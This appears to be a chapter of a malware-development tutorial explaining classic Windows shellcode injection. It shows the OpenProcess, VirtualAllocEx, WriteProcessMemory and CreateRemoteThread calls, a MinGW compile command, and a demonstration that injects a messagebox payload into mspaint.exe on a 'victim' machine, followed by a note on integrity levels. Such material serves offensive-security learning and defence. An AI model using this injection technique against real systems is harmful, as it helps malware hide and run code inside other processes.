 # 03 - injection (shellcode)

Let’s talk about code injection. What is code injection? And why we do that?    

Code injection technique is a simply method when one process, in our case it’s our malware, inject code into another running process.     

In this practical example we will discuss about a classic technique which are payload injection using debugging API.    

So, let’s go to inject our payload to process. For example, messagebox payload.    
So, what you want is to pivot to a target process or in other words to make your payload executing somehow in another process on the same machine. For example in a `calc.exe`:    

![img](./img/injection-1.png)    

The first thing is to allocates some memory inside your target process and the size of the buffer has to be at least of size of your payload:    

![img](./img/injection-2.png)    

Then you copy your payload to the target process `calc.exe` into the allocated memory:    

![img](./img/injection-3.png)    

and then "ask" the system to start executing your payload in a target process, which is `calc.exe`:    

![img](./img/injection-4.png)   

So, let’s go to code this simple logic. Now the most popular combination to do this is using built-in Windows API functions which are implemented for debugging purposes. There are:    

VirtualAllocEx - [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex):    

```cpp
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

WriteProcessMemory - [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory):    

```cpp
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

CreateRemoteThread - [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread):    

```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

First you need to get the `PID` of the process, you could enter this `PID` yourself in our case. Next, open the process with `OpenProcess` - [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function provided by Kernel32 library:     

```cpp
// parse process ID
printf("PID: %i", atoi(argv[1]));
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```

Next, we use `VirtualAllocEx` which is allows to you to allocate memory buffer for remote process:    

```cpp
// allocate memory buffer for remote process
rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
```

Then, `WriteProcessMemory` allows you to copy data between processes, so copy our payload to `calc.exe` process.     

```cpp
// "copy" data between processes
WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);
```

And `CreateRemoteThread` is similar to `CreateThread` function but in this function you can specify which process should start the new thread:   

```cpp
// our process start new thread
rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
```

Let’s go to compile this code:    

```bash
x86_64-w64-mingw32-gcc hack.c -o hack.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![img](./img/2024-05-03_08-31.png)    

Let's go to inject our payload to `mspaint.exe`. Ok, first of all run it.       

Then run Process Hacker on our victim's machine:     

![img](./img/2024-05-03_08-35.png)    

As we can see, the process ID of the `mspaint.exe` is `5412`.     

So, for injection run the following command:    

```powershell
.\hack.exe 5412
```

![img](./img/2024-05-03_08-34.png)    

As we can see messagebox is popped up.    

For checking correctness of our injection let's go to investigate memory of our victim process:    

![img](./img/2024-05-03_08-36.png)    

As we can see, everything is worked as expected!    

But, there is a caveat. Opening another process with write access is submitted to restrictions. One protection is Mandatory Integrity Control (MIC). MIC is a protection method to control access to objects based on their “Integrity level”.
There are 4 integrity levels:    
- *low level* - process which are restricted to access most of the system (internet explorer).    
- *medium level* - is the default for any process started by unprivileged users and also administrator users if UAC is enabled.    
- *high level* - process running with administrator privileges.    
- *system level* - by SYSTEM users, generally the level of system services and process requiring the highest protection.    